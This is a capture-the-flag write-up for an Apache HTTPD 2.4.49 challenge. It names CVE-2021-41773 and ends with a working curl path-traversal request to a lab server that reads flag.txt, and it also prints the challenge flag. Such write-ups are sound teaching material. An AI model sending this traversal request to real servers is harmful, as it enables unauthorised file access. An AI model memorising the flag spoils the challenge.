

<font size="10">Weird Character Behavior</font>

8<sup>th</sup> February 2024

​Prepared By: FROST8ytes

​Challenge Author(s): FROST8ytes

​Difficulty: <font color=green>Hard</font>

Flag: `Cyberhax{41w4y5_4pp1y_s3cur1ty_upd4t35}`

## Synopsis

The challenge involves viewing files shared on an HTTP server.

## Description

Hello, friend! I have decided to host the files that you were asking for on an HTTP server.

I decided to use ***Apache HTTPD 2.4.49*** to make my job easier.

I also left an easter egg called `flag.txt` at the `/` of the server. Let me know if you find it ;)

Flag example: `Cyberhax{3x4mp13_f14g_h3r3}`

Disclaimer: No bruteforce is needed.

## Skills Required

- Basic Google-ing skills
- Basic knowledge of CVEs

## Skills Learned

- Exploiting CVEs.
- Using URL encoded values.

## Application Overview



### Visiting the Website

We can see a short message for a friend. There is also a link to access files. Let's click it!

We are taken to `/public` directory with a list of files and directories. The files seem like a normal Rust project.

### Understanding Clues

The version for Apache HTTPD is bolded both in the challenge description and also the web page.

We find that the version is vulnerable to Path Traversal & Remote Code Execution (CVE-2021-41773).

We can also find an exploit example on [ExploitDB](https://www.exploit-db.com/exploits/50383).

The challenge description also mentions that `flag.txt` is located at `/`. Maybe we can traverse through the paths to reach the flag.

```sh
curl -s --path-as-is -d "echo Content-Type: text/plain;" "http://172.16.82.0:1020/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/flag.txt"

```

The flag is returned in the response.